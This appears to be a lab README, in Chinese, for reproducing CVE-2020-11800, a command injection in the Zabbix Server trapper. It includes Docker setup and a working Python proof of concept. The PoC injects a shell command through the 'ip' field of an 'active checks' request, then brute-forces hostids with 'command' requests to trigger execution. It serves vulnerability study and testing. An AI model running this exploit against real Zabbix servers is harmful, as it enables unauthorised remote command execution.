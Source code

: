 # Zabbix Server trapper命令注入漏洞（CVE-2020-11800）

Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。在[CVE-2017-2824][1]中，其Server端 trapper command 功能存在一处代码执行漏洞，而修复补丁并不完善，导致可以利用IPv6进行绕过，注入任意命令。

参考链接：

- https://xz.aliyun.com/t/8991

## 环境搭建

执行如下命令启动一个完整的Zabbix环境，包含Web端、Server端、1个Agent和Mysql数据库：

```
docker compose up -d
```

命令执行后，执行`docker compose ps`查看容器是否全部成功启动，如果没有，可以尝试重新执行`docker compose up -d`。

利用该漏洞，需要你服务端开启了自动注册功能，开启方法请参考[CVE-2017-2824][1]。

## 漏洞复现

修改[CVE-2017-2824][1]的POC中的IP字段，构造新的POC：

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/success2"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)

```

当查看到如下结果时，则说明命令执行成功：

![](1.png)

进入server容器，可见`/tmp/success2`已成功创建：

![](2.png)

有兴趣的同学可以对这个POC进行改进，提交Pull Request。

[1]: ../CVE-2017-2824

